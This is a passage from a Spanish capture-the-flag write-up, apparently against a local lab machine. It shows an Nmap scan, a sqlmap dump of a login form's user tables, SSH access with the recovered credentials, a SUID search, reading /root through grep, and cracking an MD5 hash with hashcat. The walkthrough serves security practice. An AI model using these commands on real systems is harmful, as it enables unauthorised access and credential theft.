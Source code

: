 Comienzo haciendo Nmap:
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240921142724.png)

En la página veo un enlace a un formulario de login. Pruebo a hacer sqlinjection y me sale el siguiente mensaje: 
![](Imágenes/Pasted%20image%2020240921143038.png)

Voy a probar a utilizar una herramienta automatizada: 
```bash
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dump
```
- Con `forms` se prueban los formularios en la url objetivo. 
- Con `batch` usamos el comportamiento predeterminado.
- Con `dump` obtenemos los contenidos de las tablas.

Obtengo los siguientes usuarios:
![](Imágenes/Pasted%20image%2020240921151059.png)

Estos usuarios no sirven para nada en la página web, así que miro por ssh. Con las credenciales de pepe obtengo acceso. 

Como no puedo usar sudo -l, compruebo qué ficheros con el bit SUID activado hay:
```bash
find / -perm -4000 -user root 2>/dev/null
```


![](Imágenes/Pasted%20image%2020240921151711.png)

Con ls compruebo los archivos en /root: 
![](Imágenes/Pasted%20image%2020240921151756.png)

Con [grep](https://gtfobins.github.io/gtfobins/grep/#suid) podré ver el contenido del mismo:
![](Imágenes/Pasted%20image%2020240921151842.png)

Utilizo hashcat para romper el hash: 
```bash
hashcat -m 0 -a 0 "e43833c4c9d5ac444e16bb94715a75e4" /usr/share/wordlists/rockyou.txt 
```

Obteniendo: 
![](Imágenes/Pasted%20image%2020240921152404.png)

![](Imágenes/Pasted%20image%2020240921152430.png)